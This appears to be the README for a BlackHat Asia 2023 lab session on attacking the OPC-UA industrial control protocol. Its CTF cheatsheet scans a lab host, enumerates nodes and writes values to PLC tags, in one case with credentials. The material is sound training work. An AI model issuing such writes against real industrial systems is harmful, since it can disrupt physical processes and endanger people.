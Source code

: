 # BlackHat Arsenal Singapore 2023: OPC-U-HACK
Slides &amp; content for our [Arsenal lab session](https://www.blackhat.com/asia-23/arsenal/schedule/index.html#industrial-control-systems-capture-the-train-31924)
 at BlackHat Asia 2023

This arsenal lab session aims at introducing the OPC-UA protocol, a modern protocol for Industrial Control Systems.
A demo setup will be provided and our tool [opcua-scan](https://github.com/wavestone-cdt/opcua-scan) will be used.

# Cheatsheet

Find below a few of commands that should help you flag!

### RECON#01
Scan the machine: ```nmap -p- 192.168.0.20```

Look for OPC-UA services: ```./opcua_scan.py hello -i 192.168.0.20 -p '49320, 49321, 49664, 49665, 49666, 49667, 49670, 49679, 49681'```

### RECON#02 & RECON#03
Use of the IP because there is no working DNS
```./opcua_scan.py server_config -t 'opc.tcp://192.168.0.20:49321'```

### RECON#04
List nodes that you can write to
```./opcua_scan.py server_config -t 'opc.tcp://192.168.0.20:49320' -nw```

List all the nodes
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320'```

```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'i=85'```

```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150'```

…

…

### RECON#05
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320'```

```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'i=85'```*

…

…

### READ_DATA#01
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.XXX'```

### READ_DATA#02
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.XXX'```

### WRITE_DATA#01
```./opcua_scan.py write_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.part_1_up' -d True```

### WRITE_DATA#02
This one is a little bit more complex! Several steps are involved, one of which is exploiting dynamic tags

```./opcua_scan.py write_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.XXXX' -a Use
rname -u XXX -p XXX -d True```

